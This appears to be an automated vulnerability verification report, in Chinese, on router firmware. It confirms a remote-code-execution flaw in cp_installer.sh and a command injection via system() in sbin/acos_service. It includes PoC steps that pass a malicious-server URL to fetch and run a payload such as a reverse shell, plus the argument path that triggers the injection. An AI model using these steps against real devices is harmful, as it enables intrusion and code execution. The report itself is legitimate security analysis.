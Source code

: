 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了漏洞。证据显示：1) REPO_URL 来自命令行参数（${1}），攻击者可控制；2) 在 install_cpinst 函数中（第244-250行），wget 使用 REPO_URL 下载 cpinst.tar.gz，解压后执行 cp_startup.sh，无任何验证；3) 代码路径可达，脚本被调用时执行此逻辑；4) 实际影响高，可能导致远程代码执行，尤其若脚本以 root 权限运行。攻击者模型：远程攻击者能控制 REPO_URL（例如通过命令行注入、配置篡改或网络服务调用）。PoC 步骤：1) 攻击者搭建恶意服务器，托管含恶意 cp_startup.sh 的 cpinst.tar.gz（如执行反向 shell）；2) 调用 cp_installer.sh 并传递恶意 URL：./cp_installer.sh http://malicious-server.com/ /tmp /etc；3) 脚本下载、解压并执行 cp_startup.sh，实现代码执行。完整攻击链验证。

## 验证指标

- **验证时长：** 165.87 秒
- **Token 使用量：** 309686

---

## 原始信息

- **文件/目录路径：** `sbin/acos_service`
- **位置：** `acos_service:0x1d078 fcn.0001d078 (地址 0x1d274)`
- **描述：** 函数 fcn.0001d078 存在命令注入漏洞。当特定 NVRAM 配置匹配（如 'dhcp6c_readylogo' 或 'dhcp6c_iana_only' 为 '1'）且命令行参数数量不为 3 时，程序使用 sprintf 构建命令 'ifconfig %s add %s/%s' 并传递给 system()，输入来自命令行参数（param_2）而无过滤。攻击者可通过注入特殊字符（如分号）执行任意命令。触发条件：argv[0] 包含特定字符串（如 'ipv6_drop_all_pkt'）且 NVRAM 状态满足。
- **代码片段：**
  ```
  if (param_1 != 3) {
      uVar5 = *(param_2 + 4); // 用户输入
      uVar2 = *(param_2 + 8); // 用户输入
      sym.imp.sprintf(iVar1,*0x1d2f8,uVar5,uVar2); // 格式字符串: 'ifconfig %s add %s/%s'
      sym.imp.system(iVar1); // 直接执行，无过滤
  }
  ```
- **备注：** 漏洞可能被用于权限提升。NVRAM 配置可能通过其他接口修改。建议分析所有调用路径和 system() 的其他使用点。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据如下：

1. **漏洞确认**：在函数fcn.0001d078（地址0x1d274）中，当命令行参数数量大于3且NVRAM配置'dhcp6c_readylogo'或'dhcp6c_iana_only'为'1'时，程序使用sprintf构建命令'ifconfig %s add %s/%s'并直接传递给system()，输入来自argv[2]和argv[3]而无任何过滤。

2. **攻击者模型**：未经身份验证的本地用户或通过其他服务接口能够调用acos_service的攻击者。攻击者需要能够执行二进制文件并传递参数。

3. **输入可控性**：攻击者完全控制命令行参数argv[2]和argv[3]，可以注入任意命令。

4. **路径可达性**：通过调用'/sbin/acos_service dhcp6c_up <injected_args>'即可触发漏洞路径。main函数在地址0xd6ac处调用fcn.0001d078，当argv[1]为'dhcp6c_up'时进入易受攻击函数。
